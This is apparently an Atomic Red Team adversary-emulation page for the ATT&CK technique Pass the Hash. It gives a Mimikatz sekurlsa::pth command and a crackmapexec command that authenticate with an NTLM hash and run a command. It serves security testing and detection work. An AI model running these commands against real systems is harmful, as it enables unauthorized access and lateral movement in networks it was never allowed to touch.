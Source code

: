 # T1075 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|


#### Run it with `command_prompt`! 
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```



<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| command | command to execute | string | whoami|
| crackmapexec_exe | crackmapexec windows executable | Path | C:\CrackMapExecWin\crackmapexec.exe|


#### Dependencies
| Description | Check Prereq Commands | Get Prereq Commands | 

      Description:
      CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
    Check Prereq Commands:
      if(Test-Path #{crackmapexec_exe}) { 0 } else { -1 } 
    Get Prereq Commands:
      Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe} 
  
#### Run it with `command_prompt`! 
```
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```



<br/>
